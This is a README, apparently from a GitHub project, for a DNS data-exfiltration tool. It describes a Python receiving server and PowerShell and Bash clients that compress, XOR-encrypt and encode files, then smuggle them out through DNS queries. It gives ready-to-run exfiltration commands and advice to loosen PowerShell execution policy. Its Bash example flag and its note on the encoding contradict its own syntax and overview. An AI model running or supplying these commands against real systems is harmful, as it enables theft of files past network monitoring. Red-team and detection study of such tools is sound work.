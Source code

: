 # DNS Exfiltration Tool

## DNS Server in Python (dnsexfil_server.py)

### Overview

The Python server script (`dnsexfil_server.py`) listens for DNS queries and reconstructs files sent by the exfiltration clients.

### Features

- **XOR Decryption:** Decrypts received data chunks using XOR decryption with the specified password.
- **File Compression:** Reconstructs and extracts received files locally.
- **Simultaneous Transfer:** Supports simultaneous connections and transfers.
- **Resume Interrupted Transfer:** Supports resuming interrupted transfer.
- **Error Handling:** Ignores queries received twice, and ignores queries with unknown or simple format.
- **TCP/UDP Support:** Can handle both TCP and UDP DNS queries.

### Requirements

- Python 3.x
- `dnslib` library (`pip install dnslib`)

### Installation

1. Clone or download the repository to your local machine:

```bash
git clone https://github.com/lefayjey/DNSExfiltration
```

2. Install the required Python libraries:
```bash
pip install dnslib
```

### Usage

**Syntax**

```bash
python3 dnsexfil_server.py <dns_server_ip> <password> [--usetcp]
```

**Parameters**

- `<dns_server_ip>`: IP address of the DNS server where the server should listen for queries.
- `<password>`: Password used by clients for XOR encryption.
- `--usetcp` (optional): Use TCP instead of UDP for handling DNS queries.

**Example**

```bash
python3 dnsexfil_server.py 192.168.1.100 securepass --usetcp
```

**Notes**

Ensure that the server is configured to listen on a DNS server IP address that can receive DNS queries from clients.
The server decrypts and reconstructs files based on received DNS queries.

## DNS Client in PowerShell (dnsexfil_client.ps1)

### Overview

The PowerShell script (`dnsexfil_client.ps1`) exfiltrates files over DNS using XOR encryption and base64 encoding.

### Features
- **XOR Encryption**: Encrypts file data using XOR encryption with a user-provided password.
- **Base64 Encoding**: Converts encrypted data to base64 before sending as DNS queries.
- **Chunking**: Splits large files into smaller chunks to fit within DNS query size limits.
- **Compression**: Uses gzip compression to reduce the size of data before encryption.
- **TCP/UDP Support**: Option to use TCP instead of UDP for DNS queries.

### Requirements

- PowerShell (version 3.0 or higher recommended)
- Windows operating system (script may require adjustments for other platforms)
- Access to a DNS server for sending queries

### Installation

1. Clone or download the repository to your local machine:

```powershell
git clone https://github.com/lefayjey/DNSExfiltration
```

2. No additional installation steps are required. Ensure PowerShell script execution policy allows running the script (`Set-ExecutionPolicy RemoteSigned` or `Set-ExecutionPolicy Unrestricted`).

### Usage

**Syntax**

```powershell
.\dnsexfil_client.ps1 -FilePath <file_path> -Domain <domain> -DnsServerIp <dns_server_ip> -Password <password> [-UseTcp]
```
**Parameters**

- `-FilePath`: Path to the file you want to exfiltrate.
- `-Password`: Password to be used in XOR encryption.
- `-Domain`: Domain to use in DNS queries.
- `-DnsServerIp`: IP address of the DNS server.
- `-UseTcp` (optional): Use TCP instead of UDP for DNS queries.

**Example**

```powershell
.\dnsexfil_client.ps1 -FilePath "C:\path\to\your\file" -Domain "example.com" -DnsServerIp "8.8.8.8" -Password "securepass" -UseTcp
```

**Notes**

Ensure that the DNS server configured (`-DnsServerIp`) can receive DNS queries.
Large files will be encrypted and split into smaller chunks to fit within DNS query size limits (typically 255 bytes).

## DNS Client in Bash (dnsexfil_client.sh)

### Overview

The Bash client script (`dnsexfil_client.sh`) exfiltrates files over DNS using XOR encryption and base64 encoding.

### Features

- **XOR Encryption**: Encrypts file data using XOR encryption with a user-provided password.
- **Base64 Encoding**: Converts encrypted data to base64 before sending as DNS queries.
- **Chunking**: Splits large files into smaller chunks to fit within DNS query size limits.
- **Compression**: Uses gzip compression to reduce the size of data before encryption.
- **TCP/UDP Support**: Option to use TCP instead of UDP for DNS queries.

### Requirements
- Unix-based operating system (Linux, macOS, etc.)
- nslookup or equivalent DNS tool installed

### Installation

1. Clone or download the repository to your local machine:

```bash
git clone https://github.com/lefayjey/DNSExfiltration
```

2. No additional installation steps are required.

### Usage

**Syntax**

```bash
./dnsexfil_client.sh -f <file_path> -p <password> -d <domain> -s <dns_server_ip> [-t]
```

**Parameters**

- `-f`: Path to the file you want to exfiltrate.
- `-p`: Password to be used in XOR encryption.
- `-d`: Domain to use in DNS queries.
- `-s`: IP address of the DNS server.
- `-t` (optional): Use TCP instead of UDP for DNS queries.

**Example**

```bash
./dnsexfil_client.sh -f "/path/to/your/file" -p "securepass" -d "example.com" -s "8.8.8.8" --use-tcp
```

**Notes**

Ensure that the DNS server configured (`-s`) can receive DNS queries.
Large files will be encrypted and split into smaller chunks to fit within DNS query size limits (typically 255 bytes).
Encrypted data is sent as hexadecimal strings in DNS queries.

# License
This project is licensed under the MIT License - see the LICENSE file for details.

# Acknowledgments
Inspired by the following DNS exfiltration tools:
- https://github.com/Arno0x/DNSExfiltrator
- https://github.com/m57/dnsteal